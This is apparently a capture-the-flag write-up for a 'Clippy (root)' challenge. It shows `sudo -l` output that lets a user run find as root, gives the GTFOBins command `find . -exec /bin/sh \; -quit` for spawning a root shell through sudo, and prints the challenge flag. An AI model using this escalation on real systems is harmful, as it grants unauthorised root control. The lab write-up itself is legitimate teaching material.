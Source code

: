 # Clippy (root)

When you login, you can run the command `sudo -l` to list what commands you can
run with superuser permissions.

```
Matching Defaults entries for clippy on 487881c1ed02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User clippy may run the following commands on 487881c1ed02:
    (ALL) NOPASSWD: /usr/bin/find

```

So, you can see that we are able to run `find` as root.

There is a website called GTFOBins[1] that lists ways to abuse common unix
commands.

The page for `find`[2]` lists the following command for breaking out of restricted
shells, which is valid for this case:

```
find . -exec /bin/sh \; -quit
```


So, when we run that with sudo, we get a root shell.

Flag:
```
CTF{sudo_make_me_a_sandwich}
```


## References

* [1] https://gtfobins.github.io/
* [2] https://gtfobins.github.io/gtfobins/find/
